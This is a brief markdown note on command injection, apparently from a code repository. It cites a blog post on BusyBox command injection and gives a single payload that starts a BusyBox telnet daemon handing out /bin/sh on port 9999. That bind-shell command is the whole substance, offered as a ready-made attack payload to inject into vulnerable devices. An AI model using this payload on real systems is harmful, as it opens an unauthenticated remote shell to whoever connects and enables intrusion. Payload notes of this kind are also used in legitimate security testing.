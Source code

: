 # Command Injection

> Reference: https://www.nccgroup.trust/us/about-us/newsroom-and-events/blog/2010/february/busybox-command-injection/

## Bind a telnet shell to port 9999
```
/bin/busybox telnetd -l/bin/sh -p9999
```
